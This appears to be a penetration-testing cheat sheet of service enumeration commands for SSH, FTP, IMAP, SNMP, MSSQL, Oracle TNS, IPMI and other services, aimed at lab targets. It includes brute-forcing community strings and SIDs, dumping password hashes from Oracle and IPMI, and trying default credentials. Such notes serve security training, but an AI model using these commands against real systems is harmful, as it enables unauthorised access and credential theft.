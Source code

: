 # **Services**

## **Principles**

| No.      | Principle                          |
| ----------- | ------------------------------------ |
| `1`       | There is more than meets the eye. Consider all points of view.  |
| `2`       | Distinguish between what we see and what we do not see. |
| `3`    | There are always ways to gain more information. Understand the target |


## **Services**
!!! tip "Default Passwords"

    Try out known default passwords for ANY services that we discover, as these are often left unchanged and can lead to quick wins.

### <span class="red-command">SSH</span>
Configuration file stored at - <code class="invert">/etc/ssh/sshd_config</code>

```
ssh -v r3dp4rrot@<server_ip> -o PreferredAuthentications=password
```

### <span class="red-command">RDP</span>
Fingerprinting RDP via nmap
```
nmap -sV -sC <server_ip> -p3389 --script rdp*
```

Initiate an RDP Session
```
xfreerdp /u:<user> /p:"<pass>" /v:<rdp_server_ip>
```

### <span class="red-command">WinRM</span>
WinRM relies on TCP ports `5985` and `5986` for communication, with the last port `5986 using HTTPS`.

```
evil-winrm -i <server_ip> -u <user> -p <password>
```

### <span class="red-command">FTP</span>
Control channel on TCP port 21.  
Data transfer channel on TCP port 20.  
File Transfer Protocol (TFTP) uses TCP.  
Trivial File Transfer Protocol (TFTP) uses UDP.  

Configuration file stored at - <code class="invert">/etc/vsftpd.conf</code>  
Connecting to an FTP server and getting the server settings.
```
ftp <server_ip>
> status
```

Recursive directory listing
```
> ls -R
```

Download a file from the ftp server
```
> get Flags\ flag.txt
OR 
> cd Flags
> mget flag.txt
```

Upload a file to the ftp server
```
> put some.exe
```

Connecting to the FTP server using netcat
```
nc -nv <server_ip> 21
```

Connecting to the FTP server using telnet
```
telnet <server_ip> 21
```

Connect to a TLS enabled FTP server
```
openssl s_client -connect <server_ip>:21 -starttls ftp
```

Connect to an FTP server as a user
```
ftp <user>@<server_ip>
```

### <span class="red-command">SMB</span>
Samba server listens on TCP ports `137, 138, 139`, but CIFS uses TCP port `445` only.  
Configuration file stored at - <code class="invert">/etc/samba/smb.conf</code>

### <span class="red-command">NFC</span>
UDP or TCP port `2049` is used to run the service.


### <span class="red-command">DNS</span>

[`Learn how to configure a DNS server`](https://wiki.debian.org/Bind9#Introduction){target=_blank}

### <span class="red-command">SMTP</span>

### <span class="red-command">IMPA/POP3</span>

```
# List all the INBOXs
curl -k --url 'imaps://10.129.92.23' --user username:passwd -X 'LIST "" *'

# Select the INBOX
curl -k --url 'imaps://10.129.92.23' --user username:passwd -X 'SELECT "INBOX_NAME"'
OR
curl -k --url 'imaps://10.129.92.23/INBOX_NAME' --user username:passwd
```

```
curl -v -k --url 'imaps://10.129.92.23/$MAILBOX' --user 'username:passwd' -X 'FETCH 1 BODY[]'
```

```
# connect to IMAP via SSL/TLS
openssl s_client -connect 10.129.14.128:imaps

# connect to POP3 via SSL/TLS
openssl s_client -connect 10.129.14.128:pop3s

```

### <span class="red-command">SNMP</span>
[`Learn how to configure an SNMP daemon`](http://www.net-snmp.org/docs/man/snmpd.conf.html)

```
# bruteforcing community strings
onesixtyone -c /opt/SecLists/Discovery/SNMP/snmp-onesixtyone.txt <server_ip>

# Bruteforcing oids with braa
braa public@<server_ip>:.1.3.6.*

snmpwalk -v2c -c <community_str> <server_ip>
```

### <span class="red-command">MySQL</span>
The configuration files of MySQL server are loacted at - `/etc/mysql/mysql.conf.d/mysqld.cnf`
```
# connect to a MySQL server using creds
mysql -u username -pPassword -h <server_ip>
```

### <span class="red-command">MSSQL</span>
Footprinting the MSSQL service using Nmap
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.3.154
```

Ping the MSSQL server using Metasploit
```
msfconsole
> use use auxiliary/scanner/mssql/mssql_ping
> set rhosts <mssql_server_ip>
```

Connect to MSSQL Server using Impacket's mssqlclient.py script
```
python3 examples/mssqlclient.py username@<mssql_server_ip> -windows-auth
```

### <span class="red-command">Oracle TNS</span>
Bruteforcing SIDs using nmap
```
nmap <oracle_db_ip> -p1521 -sCV --script oracle-sid-brute
```

Enumerating the oracle TNS using odat.py
```
python3 ./odat.py all -s <oracle_db_ip>
```

Get auth credentials using the obtained SID
```
python3 ./odat.py all -s <oracle_db_ip> -d <SID>
```

Attempting to login as sysdba via obtained credentials
```
sqlplus <user>/<pass>@<oracle_db_ip>/XE as sysdba
```

Getting password hashes from the connected DB
```
SQL> select name, password from sys.user$;
```

### <span class="red-command">IPMI</span>
IPMI communicates over port `623 UDP`.  
Systems that use the IPMI protocol are called `Baseboard Management Controllers (BMCs)`. BMCs are typically implemented as embedded ARM systems running Linux, and connected directly to the host's motherboard. BMCs are built into many motherboards but can also be added to a system as a PCI card.  

If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. <code class="invert">Gaining access to a BMC is nearly equivalent to physical access to a system</code>. Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol. 

Fingerprinting the service running on UDP port 623.
```
sudo nmap -sU --script ipmi-version -p 623 <subdomain>
```

Metasploit version scan
```
msfconsole
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts <server_ip>
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

Obtain the password hash for ANY valid user account on the BMC via [`Metasploit`](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/){target=_blank}.
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) >> set PASS_FILE /opt/SecLists/Passwords/bt4-password.txt
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```


